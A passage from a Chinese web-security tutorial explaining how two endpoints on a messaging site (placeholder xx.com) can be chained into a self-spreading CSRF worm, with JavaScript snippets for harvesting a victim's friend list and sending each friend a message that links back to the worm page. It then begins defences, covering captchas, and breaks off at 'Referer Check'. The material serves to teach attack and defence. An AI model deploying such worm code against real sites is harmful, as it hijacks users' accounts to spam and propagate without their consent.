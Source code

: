 `http://msg.xx.com/?ct=22&amp;cm=MailSender&amp;tn=bmSubmit&amp;sn=账号&amp;co=消息内容`

只需要修改参数sn，即可以对指定的用户发送短消息，而这里另一个接口则可以查询出某个用户的所有好友：

`http://frd.xx.com/?ct=28&amp;cm=FriList&amp;tn=bmABCFriList&amp;un=账号&amp;callback=gotfriends`

将两者结合起来，可以组成一个CSRF Worm，让一个用户查看恶意截面后，将给他的好友发送一条短消息，这个短消息又包含一张图片，其地址再次指向CSRF页面，使得这些好友再次将信息发给他的好友，这个worm因此得以传播。

首先：模拟服务器取得request的参数。
<pre class="lang:js decode:true ">var lsURL = window.location.href;
loU = lsURL.split("?");// get href from broswer
if(loU.length&gt;1){
	var loallPm=loU[1].split("&amp;");// get param from ?XXXX
}</pre>
定义蠕虫页面的服务器地址，取得?和&amp;符号后面的字符串，从URL中提取出感染蠕虫的用户名以及感染者好友的用户名。

其次：好友json数据的动态获取。
<pre class="lang:js decode:true ">var gotfriends = function(x){
	for (i=0;i&lt;x[2].length;i++){
		friends.push(x[2][i][1]);
	}
}
loadjson('&lt;script 
src="http://frd.xxx.com/?ct=28&amp;un='+lusername+'&amp;cm=FriList&amp;tn=bmABCFriList&amp;callback=gotfriends&amp;.tmp=&amp;1=2"&lt;\/script&gt;');</pre>
通过CSRF漏洞从远程加载受害者好友json数据，根据该接口的json数据格式，提取出好友数据为蠕虫的传播流程做准备。

最后：感染信息输出和消息发送的核心部分。
<pre class="lang:js decode:true ">evilurl=url+"/wish.php?from="+lusername+"&amp;to=";
sendmsg="http://msg.xx.com/?ct=22&amp;cm=MailSend&amp;tn=bmSubmit&amp;sn=[user]&amp;co=[evilmsg]";
for(i=0;i&lt;friends.length;i++){
	mysendmsg=mysendmsg+"&amp;"+i;
	eval('x'+i+'=new Image();x'+i+'.src=unescape(""+mysendmsg+'");');
}</pre>
将感染者的用户和需要传播的好友用户名放到蠕虫链接内，然后输出短消息。

所以讲这两个结合起来就可以组成一个CSRF Worm，让一个用户查看恶意页面之后，将给他的所有好友发送一条短信息，这个短信息中又可以插入一张图片，其地址可以指向CSRF页面，使得这些好友再次把信息发送给他们的好友，这个worm就可以传播了。

这样可以把感染者的用户名和需要传播的好友用户名放到蠕虫连接内，然后输出短消息。这样的话，即使没有XSS漏洞，也能仅仅依靠CSRF，也是能够发送大规模蠕虫攻击的。

# CSRF的防御

## 验证码

验证码被认为是对抗CSRF攻击最简单和有效的防御方法。

CSRF攻击的过程，往往是在用户不知情的情况下构造了网络请求。而验证码可以强制你用户必须与应用进行交互才能完成请求。因此在最终情况下，验证码能够很好的遏制CSRF攻击。

但是验证码并非是万能的，在很多时候，出于用户体验的考虑，网站不能给所有的操作都加上验证码。因此，验证码只能作为防御CSRF的一种辅助手段，而不能作为最主要的解决方案。

## Referer Check
